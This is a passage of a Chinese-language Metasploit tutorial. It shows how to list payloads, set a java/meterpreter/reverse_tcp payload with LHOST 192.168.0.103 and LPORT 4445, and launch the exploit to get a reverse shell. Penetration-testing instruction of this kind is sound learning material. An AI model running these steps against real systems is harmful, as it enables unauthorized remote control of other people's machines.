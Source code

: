 接下来，我们必须设置所有必需的选项&有效载荷。首先，我们必须寻找兼容的有效载荷。所有有效负载可能与当前模块不兼容。

```
>show payloads
```

然后为了设置它，复制路径& issue:

```
>set PAYLOAD java/meterpreter/reverse_tcp
```

Meterpreter 是最先进的有效载荷。我们可以从这个强大的有效载荷中获得很多乐趣。我们稍后将讨论这一点。

现在设置 LHOST，它是有效负载必须返回连接的机器。记住要给出完整的 ip 地址，而不是本地主机或 127.0.0.1 等

```
set LHOST 192.168.0.103
```

如果需要，您可以更改监听端口

```
set LPORT 4445
```

现在都准备好了

```
>exploit
```

[![msfconsole](img//04313a9e3da0da16f4498f1c5a2b4496.png)](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-5/)

